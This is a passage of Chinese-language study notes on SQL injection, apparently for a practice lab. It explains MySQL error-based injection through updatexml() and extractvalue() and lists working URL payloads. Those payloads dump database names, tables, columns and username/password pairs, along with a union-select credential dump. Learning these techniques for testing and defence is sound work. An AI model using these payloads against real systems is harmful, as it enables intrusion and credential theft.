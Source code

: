 ###### 爆值

`?id=-1' union select 1,group_concat(username),group_concat(password) from security.users--+`

##### <<报错注入

###### 前提

&emsp;&emsp;页面能够响应详细的错误描述，MySQL 数据库中显示错误描述是因为开发程序中采用了 print_r、mysql_error() 函数。

###### NOTICE

&emsp;&emsp;报错注入的，布尔注入也行。

###### updatexml()

```mysql
UpdateXML(xml_target, xpath_expr, new_xml)
```

用 new_xml 替换根据 xpath_expr 在 xml_target 匹配到的内容，然后返回更改后的 XML 。如果未 xpath_expr 找到匹配的表达式，或者找到多个匹配项，该函数将返回原始 xml_target 。所有三个参数都应该是字符串。

```mysql
UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e> ') AS val5

val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>
```

updatexml 使用时，当 xpath 格式出现错误，MySQL 会爆出 xpath 语法错误。

注入命令类似 extractvalue() ，多加个参数值 1 就是了。

###### extractvalue()

```mys
EXTRACTVALUE(xml_frag, xpath_expr)
```

返回匹配结果，未匹配到则返回 NULL 。extractvalue 使用时，当 xpath 格式出现错误，MySQL 会爆出 xpath 语法错误。

注意不能用 group_concat() ，因为返回值太多了不能正常回显，只能 `limit N,1` 来慢慢爆。 

- `?id=1' and extractvalue(1, concat(0x7e,(select @@version),0x7e))--+`：爆数据库版本
- `?id=1' and extractvalue(1, concat(0x7e,(select database()),0x7e))--+` ：爆库名
- `?id=1' and extractvalue(1, concat(0x7e,(select table_name from information_schema.tables where table_schema='xxx' limit N,1),0x7e))--+` ：爆表名
- `?id=1' and extractvalue(1, concat(0x7e,(select column_name from information_schema.columns where table_schema='xxx' and table_name='xxx' limit N,1),0x7e))--+`：爆列名
- `?id=1' and extractvalue(1, concat(0x7e,(select concat(username,0x7e,password) from security.users limit N,1),0x7e))--+` ：爆值
